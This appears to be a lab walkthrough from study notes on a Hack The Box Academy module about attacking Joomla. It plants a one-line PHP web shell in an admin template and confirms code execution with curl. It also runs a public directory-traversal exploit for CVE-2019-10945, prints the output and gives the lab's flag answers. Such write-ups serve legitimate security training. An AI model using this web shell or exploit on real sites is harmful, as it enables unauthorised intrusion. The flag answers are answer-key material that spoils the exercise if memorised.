 ```yaml
---
description: >-
  Joomla has had its fair share of vulnerabilities against the core application
  and vulnerable extensions. (possible to gain remote code execution if we can
  log in to the admin backend.)
---
```


# Attacking Joomla

## Abusing Built-In Functionality

Log in to the admin control panel using credentials found whether by leak or brute force. After logging in&#x20;

we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_admin.png" alt=""><figcaption><p>Control Panel</p></figcaption></figure>

Access Templates (Under Configuration)

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_templates.png" alt=""><figcaption></figcaption></figure>

Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_customise.png" alt=""><figcaption><p>Choose page from the left panel</p></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_edited.png" alt=""><figcaption><p>error.php</p></figcaption></figure>

add the following to the php file.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell-session
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Leveraging Known Vulnerabilities

* Most of the Joomla related vulerabilities are Joomla extensions
* Find vulnerabilities specific to the version running on the target

For our example, the Joomla is vulerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability.

The exploit can be found [here](https://github.com/dpgg101/CVE-2019-10945).

```shell-session
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

## Assessment

Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application

<figure><img src="../../../.gitbook/assets/image (32) (2).png" alt=""><figcaption><p>3.9.4</p></figcaption></figure>

```
python3 CVE-2019-10945.py --url=http://dev.inlanefreight.local/administrator --username=admin --password=admin --dir=/                                   
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
flag_6470e394cbf6dab6a91682cc8585059b.txt
htaccess.txt
index.php
robots.txt
web.config.txt
```

<figure><img src="../../../.gitbook/assets/image (35) (2).png" alt=""><figcaption><p>j00mla_c0re_d1rtrav3rsal!</p></figcaption></figure>
